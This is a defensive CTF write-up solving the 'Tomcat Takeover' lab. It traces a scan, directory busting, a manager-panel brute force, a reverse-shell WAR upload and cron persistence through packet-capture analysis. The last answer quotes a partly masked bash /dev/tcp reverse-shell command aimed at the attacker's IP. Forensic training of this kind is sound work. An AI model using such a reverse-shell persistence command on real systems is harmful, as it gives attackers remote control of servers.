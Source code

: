 ```yaml
---
layout: page
title: Tomcat Takeover
categories: CTFs
permalink: /cyberdefenders/tomcat-takeover/
---
```


## Details

https://cyberdefenders.org/blueteam-ctf-challenges/tomcat-takeover/

Instructions:

Uncompress the lab (pass: cyberdefenders.org)
Scenario:

Our SOC team has detected suspicious activity on one of the web servers within the company's intranet. In order to gain a deeper understanding of the situation, the team has captured network traffic for analysis. This pcap file potentially contains a series of malicious activities that have resulted in the compromise of the Apache Tomcat web server. We need to investigate this incident further.

Tools:
- Wireshark
- NetworkMiner

# Solution

## Question 1
**Given the suspicious activity detected on the web server, the pcap analysis shows a series of requests across various ports, suggesting a potential scanning behavior. Can you identify the source IP address responsible for initiating these requests on our server?**

The question is asking us to find the IP address that is performing a port scannin operation on our network. To find this we can go ahead and go to Statistics > Endpoints > TCP to get a better idea as to which IP address is making the most requests to different port numbers.

![Endpoint](https://github.com/user-attachments/assets/cf53e731-e8e8-40a3-a6e0-e9d21122f006)


Looking at the results we can see that the IP 1*.0.0.*** has made requests to various port numbers most of them being above the common ports range which warrants suspicious behaviour.

### Answer
1*.0.0.***

## Question 2
**Based on the identified IP address associated with the attacker, can you ascertain the city from which the attacker's activities originated?**

For this we can simply go to a site like abuseipdp.com and check IP information.

![AbuseIPDP](https://github.com/user-attachments/assets/62852fc9-eb22-469a-9dcd-8b852f91fd1c)


### Answer
G********

## Question 3
**From the pcap analysis, multiple open ports were detected as a result of the attacker's activitie scan. Which of these ports provides access to the web server admin panel?**

For this we can start of by filtering for HTTP packets, since the question is asking to find the port relating to a web server which communicates in HTTP.

![http](https://github.com/user-attachments/assets/d5d8dfe8-ce82-47fe-805d-32adb8b0aefc)

This gives us a bunch of packets. Now let's try narrowing it down even further. We can go to Statistics > Conversations to get a clear look into what ports are involved in the HTTP packets.


![PORT](https://github.com/user-attachments/assets/6c987d6d-4a1e-42e6-949c-ee5a02e2e3e5)


Looking at the results it seems there is only one port involved in HTTP which we can safely conclude that this is the correct answer. Should there have been more ports than one which is unlikely we could have gone on to filter for the ports that involve an admin page.

### Answer
8***

## Question 4
**Following the discovery of open ports on our server, it appears that the attacker attempted to enumerate and uncover directories and files on our web server. Which tools can you identify from the analysis that assisted the attacker in this enumeration process?**

Looking at the HTTP packets we can see a bunch of requests that are made in a short period of time indicating an automation. This is typical behaviour for directory busting software.

![dirbust_sus](https://github.com/user-attachments/assets/26c67847-8f04-42b5-9170-d817032451c1)


Looking at one of these packets reveals to us the tool used by the attacker

![tool](https://github.com/user-attachments/assets/bfeedc2d-44df-471d-9992-f36ceb374f83)

### Answer
go******

## Question 5
**Subsequent to their efforts to enumerate directories on our web server, the attacker made numerous requests trying to identify administrative interfaces. Which specific directory associated with the admin panel was the attacker able to uncover?**

To find this we can use the filter 'http.request or http.response.code != 404' this filter will filter for HTTP Requests and Responses for the pages that exist within the server. This will allow us to more efficiently sift through the data.

After sifting through the data we stumble across the admin panel

![admin](https://github.com/user-attachments/assets/2be6ad5f-beab-4b45-b809-115f6c964b5b)

We can see a request for /m*****/h*** which provides a response of Unauthorized telling us that that page is only accessible to admins.

### Answer
/m******

## Question 6
**Upon accessing the admin panel, the attacker made attempts to brute-force the login credentials. From the data, can you identify the correct username and password combination that the attacker successfully used for authorization?**

To find this we can look through all the requests to /manager/html until we find a response OK to that request.


![OK](https://github.com/user-attachments/assets/30243610-fff4-432f-b637-8aea2167e464)

We can see that after a series of unsuccessful attempts the attacker gets an OK response from the server indicating that the credentials worked. To look at what credentials they used we can check the Authorization header under the HTTP data in the Packet

![credentials](https://github.com/user-attachments/assets/3c94631a-aca0-48aa-9740-6c0fcf13deda)


### Answer
a****:t*****

## Question 7
**Once inside the admin panel, the attacker attempted to upload a file with the intent of establishing a reverse shell. Can you identify the name of this malicious file from the captured data?**

To find this we can filter for POST packets. This can be done using the filter 'http.request.method == POST'.

![POST](https://github.com/user-attachments/assets/903d536a-a692-4d24-80a1-ddd090d2e557)

We can see that there is only 1 POST packet, looking into the packet information we can see what file was uploaded.

![file](https://github.com/user-attachments/assets/bfd8e059-5089-41af-bd71-fbdca50f4c5e)


### Answer
J*****.**r

## Question 8
**Upon successfully establishing a reverse shell on our server, the attacker aimed to ensure persistence on the compromised machine. From the analysis, can you determine the specific command they are scheduled to run to maintain their presence?**

To find this we can look for a request to the file that was uploaded, since the server needs to run the file for the commands to be executed, and then look at subsequent connections between the attacker and the server to find any commands run by the attacker

![search](https://github.com/user-attachments/assets/2144f96b-fb0c-43b1-ba90-0dd75e56f202)

We can see that the attacker sent a request to GET /JXQOZY/ indicating that the attacker tried to run the malicious file that we uncovered in the previous question. We can see a few packets later that the server sends an OK response indicating that the malicious file was opened. Looking at the next few packets we stumble upon a packet which has 'whoami' as part of it's data. whoami is a common command which is used by attackers to find out what account they are currently using. Following this TCP Stream we can uncover all the other commands run by the attacker.

![persistence](https://github.com/user-attachments/assets/f76ca117-79af-4068-96a6-d712599afc87)

We can see that there is a command for cron, which is a task scheduler for Unix like operating systems, which is commonly used for persistence by attacker.

### Answer
/b**/b*** -* '**** -* >& /***/tcp/14.0.0.**0/**3 0>&1'
